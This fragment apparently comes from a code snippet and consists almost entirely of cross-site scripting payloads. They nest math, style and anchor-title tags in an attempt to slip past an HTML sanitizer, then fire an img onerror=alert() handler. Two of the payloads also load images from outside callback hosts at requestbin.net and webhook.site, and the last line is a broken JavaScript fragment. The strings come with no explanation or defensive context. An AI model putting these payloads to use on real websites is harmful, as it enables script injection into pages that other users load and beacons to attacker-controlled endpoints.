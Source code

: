 ">a<math>s<xss style=display:block>t<style>X<a title=""</style>a<img src="http://requestbin.net/r/154l6z91/123" onerror=alert()>">s.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src='https://webhook.site/830d2611-45c3-4448-9b8d-c80b74811960' onerror=alert()>">.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src=x onerror=alert()>">.<a>.

var xx = <math style=""><img src=xxx>
